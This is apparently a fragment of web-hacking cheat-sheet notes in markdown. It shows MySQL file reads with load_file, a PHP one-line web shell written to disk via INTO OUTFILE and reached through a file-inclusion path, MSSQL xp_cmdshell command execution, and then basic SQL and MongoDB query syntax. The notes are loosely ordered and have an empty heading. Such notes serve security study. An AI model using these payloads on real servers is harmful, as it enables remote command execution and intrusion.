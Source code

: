 ```sql
# echo test1234 > /var/lib/mysql-files/test
mysql> select load_file('/var/lib/mysql-files/test');
+----------------------------------------+
| load_file('/var/lib/mysql-files/test') |
+----------------------------------------+
| test1234                               |
+----------------------------------------+
```
```sql
mysql> select '<?=`$_GET[0]`?>' into (outfile/dumpfile) '/tmp/a.php';
/* <?php include $_GET['page'].'.php'; // "?page=../../../tmp/a?0=ls" */
```
- MSSQL
```sql
SELECT name, value, description FROM sys.configurations WHERE name = 'xp_cmdshell'
```
```sql
EXEC xp_cmdshell "net user";
EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';
```

### Command Injection


## Database
### SQL & MongoDB(NoSQL)
- SELECT
```sql
SELECT * FROM account;
db.account.find()
SELECT * FROM account WHERE user_id="admin";
db.account.find(
{user_id: "admin"}
)
SELECT user_idx FROM account WHERE user_id="admin";
db.account.find(
{ user_id: "admin" },
{ user_idx:1, _id:0 }
)
```

- INSERT
```sql
INSERT INTO account(
user_id,
user_pw,
) VALUES ("guest", "guest");
db.account.insert({
user_id: "guest",
user_pw: "guest"
})
```
